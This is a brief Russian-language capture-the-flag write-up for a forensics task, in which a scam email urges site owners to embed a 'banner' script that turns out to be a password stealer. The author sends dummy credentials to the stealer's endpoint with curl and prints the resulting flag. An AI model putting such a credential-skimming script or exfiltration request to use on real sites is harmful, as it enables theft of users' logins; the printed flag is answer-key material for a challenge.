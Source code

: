 # Money - Forensics, 100 баллов
Вводим email и получаем ссылку на скрипт, который поможет вам поднять бабла:
```
Если письмо отображается неправильно, откройте html-версию письма.

Всё что нужно - это встроить рекламный баннер на сайте:

https://money.ctf.yummytacos.me/banner
После установки баннера наши операторы свяжутся с вами.
Если этого не произойдёт в течении недели после внедрения скрипта, напишите нам на no-reply@yummytacos.me
```
Скрипт - простой стилер паролей с сайтов. Давайте сделаем запрос на endpoint этого стилера:
```bash
$ curl -v 'https://money.ctf.yummytacos.me/banner/image.php?login=123&password=321'
```
В заголовках ответа видим флаг. 

**Флаг:** `ytctf{th4nks_f0r_your_login_and_password}`
